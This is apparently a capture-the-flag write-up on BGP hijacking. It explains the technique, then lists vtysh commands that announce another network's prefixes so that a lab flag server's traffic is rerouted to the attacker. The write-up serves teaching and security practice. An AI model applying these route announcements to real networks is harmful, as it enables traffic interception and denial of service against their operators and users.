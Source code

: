 # MITM Exploits
BGP Hijacking
-------------

**Info:** BGP, or Border Gateway Protocol, is used to direct traffic across the Internet. Networks use BGP to exchange “reachability information” – networks they know how to get to. Any network that is connected to the Internet eventually relies on BGP to reach other networks. 

**How it works:** BGP hijacking is when an attacker disguises itself as another network; it announces network prefixes belonging to another network as if those prefixes are theirs. If this false information is accepted by neighboring networks and propagated further using BGP, it distorts the “roadmap” of the Internet. As a result, traffic is forwarded to the attacker instead of its legitimate destination, causing Denial of Service (DoS) attacks or traffic interception.

![BGP Hijacking Flow](MITM%20Exploits/bgp-hijacking-technical-flow.p)

Our main objective is to hijack the sever with flag and re-route the flag packet to us.

### Exploitation

we are going to launch the BGP config shell with the following command and enter the BGP configuration mode with the following command.

```text-plain
vtysh
config terminal
```

We need to add a route to make sure the flag server route the packet to us.

```text-plain
router bgp 60001
network 172.16.2.0/25
network 172.16.3.0/25
end
```

and then in vtysh terminal,

```text-plain
clear ip bgp *
```

check the updated routes, in vtysh term,

```text-plain
show ip bgp neighbors 172.16.12.102 advertised-routes
```